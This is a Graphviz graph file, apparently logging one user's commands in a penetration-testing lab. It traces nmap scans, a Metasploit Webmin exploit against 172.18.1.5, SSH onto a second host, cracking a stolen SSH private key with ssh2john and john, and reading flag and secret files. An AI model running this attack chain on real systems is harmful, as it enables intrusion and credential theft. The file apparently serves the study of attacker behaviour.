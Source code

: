 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 A1 "]
	2 [label="ls A10 "]
	7 [label="msfconsole M2 "]
	8 [label="search webmin M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 M6 "]
	15 [label="check A7 "]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	20 [label="use 3 A4 "]
	23 [label="check A7 "]
	26 [label="check A7 "]
	27 [label="exploit M8 "]
	38 [label="nmap 10.1.17.4 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 M16 "]
	42 [label="ls A10 "]
	48 [label="chmod #033[2~ id_rsa A15 "]
	50 [label="chmod 600 id_rsa M15 "]
	54 [label="ls A10 "]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 "]
	60 [label="./ssh2john.py id_rsa A14 "]
	61 [label="./ssh2john.py id_rsa > hash A14 "]
	62 [label="ls A10 "]
	64 [label="john hash --show A14 "]
	65 [label="john hash --show A14 "]
	66 [label="john hash --show A14 "]
	67 [label="john hash A14 "]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 23 [constraint=false]
	23 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 42 [constraint=false]
	42 -> 48 [constraint=false]
	48 -> 50 [constraint=false]
	50 -> 54 [constraint=false]
	54 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 72 [constraint=false]
	72 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}
